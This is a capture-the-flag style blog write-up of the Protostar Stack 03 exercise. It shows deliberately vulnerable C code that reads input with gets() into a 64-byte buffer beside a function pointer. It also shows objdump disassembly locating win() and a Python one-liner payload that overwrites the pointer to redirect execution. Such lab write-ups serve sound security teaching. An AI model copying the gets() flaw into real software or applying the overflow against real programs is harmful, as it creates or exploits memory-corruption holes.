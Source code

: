 ```yaml
---
layout:     post
title:      "Protostar - Stack 03"
description: "This time by using buffer overflow we're going to call a different function."
date:       2018-05-12 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


Let's start by looking at the source code of the challenge.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}

As you can see we have additional `win()` function that we have to call. In the main we have function pointer `fp` and `buffer`. As the pointer in the code is assigned `0`, no function is called. But what will happen if we would assign `win` to fp? Then in `fp();`, the function would be called.

In order to complete that, we have to find the address of the `win()` function. We can do this in both `gdb` and `objdump`, but in this task objdump will be faster.

{% highlight bash %}
$ objdump -d stack3

stack3:     file format elf32-i386

08048424 <win>:
 8048424:	55                   	push   %ebp
 8048425:	89 e5                	mov    %esp,%ebp
 8048427:	83 ec 18             	sub    $0x18,%esp
 804842a:	c7 04 24 40 85 04 08 	movl   $0x8048540,(%esp)
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret    

08048438 <main>:
 8048438:	55                   	push   %ebp
 8048439:	89 e5                	mov    %esp,%ebp
 804843b:	83 e4 f0             	and    $0xfffffff0,%esp
 804843e:	83 ec 60             	sub    $0x60,%esp
 8048441:	c7 44 24 5c 00 00 00 	movl   $0x0,0x5c(%esp)
 8048448:	00
 8048449:	8d 44 24 1c          	lea    0x1c(%esp),%eax
 804844d:	89 04 24             	mov    %eax,(%esp)
 8048450:	e8 db fe ff ff       	call   8048330 <gets@plt>
 8048455:	83 7c 24 5c 00       	cmpl   $0x0,0x5c(%esp)
 804845a:	74 1b                	je     8048477 <main+0x3f>
 804845c:	b8 60 85 04 08       	mov    $0x8048560,%eax
 8048461:	8b 54 24 5c          	mov    0x5c(%esp),%edx
 8048465:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048469:	89 04 24             	mov    %eax,(%esp)
 804846c:	e8 df fe ff ff       	call   8048350 <printf@plt>
 8048471:	8b 44 24 5c          	mov    0x5c(%esp),%eax
 8048475:	ff d0                	call   *%eax
 8048477:	c9                   	leave  
 8048478:	c3                   	ret    
 8048479:	90                   	nop
 804847a:	90                   	nop
 804847b:	90                   	nop
 804847c:	90                   	nop
 804847d:	90                   	nop
 804847e:	90                   	nop
 804847f:	90                   	nop
{% endhighlight %}

Some of the output is omitted for clearability, here we have the most important information - `08048424 <win>` - that's our address `08048424`. Now we have to pass this to the binary, together with 64 bytes that will fill the buffer.

{% highlight bash %}
 $ python -c 'print("A" * 64 + "\x24\x84\x04\x08")' | ./stack3
 calling function pointer, jumping to 0x08048424
 code flow successfully changed
{% endhighlight %}
